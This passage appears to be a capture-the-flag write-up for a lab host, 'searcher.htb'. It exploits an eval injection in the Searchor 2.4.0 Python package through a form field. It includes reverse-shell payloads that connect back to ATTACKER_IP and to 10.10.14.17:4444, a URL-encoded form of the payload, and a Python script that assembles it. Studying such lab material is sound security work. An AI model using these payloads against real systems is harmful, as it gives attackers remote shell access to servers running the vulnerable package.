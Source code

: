 We can google for a vulnerability and find :

[https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303) :

> Arbitrary Code Execution 
> 
> Affected versions of this package are vulnerable to Arbitrary Code Execution due to unsafe implementation of `eval` method.

[https://github.com/xqx12/daily-info/blob/master/tech_info_20230429.md](https://github.com/xqx12/daily-info/blob/master/tech_info_20230429.md) which points to : [https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)

> Send this as query parameter to the tested host

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

This payload is used in engine field with URL encoding:

```
engine=',exec("import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(('10.10.14.17',4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(['/bin/bash','-i'])%3b"))%23&query=test
```

- `%3b` = `;`
- `%3d` = `=`
- `%23` = `#`

We can also use curl to make the query :

```shell
curl -X POST http://searcher.htb/search -d 'engine=Accuweather' -d 'query=test'
```

In order to make all the actions, here is a do-it-all python script :

```python
import requests

url="http://searcher.htb/search"
C2IP = "10.10.14.17"
C2Port = 4444

headers = {'Content-Type': 'application/x-www-form-urlencoded'}

print("--- Simple test to auto-check validity ---")
params = { 'engine' : 'Accuweather',
            'query' : 'test'
             }
r = requests.post(url, data=params, headers=headers)

print(r.content)

print("--- With payload ---")
Payload = """', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#""".format(C2IP,C2Port)

print("Payload:")
print(Payload)

params = { 'engine' : 'Accuweather',
            'query' : Payload
             }
```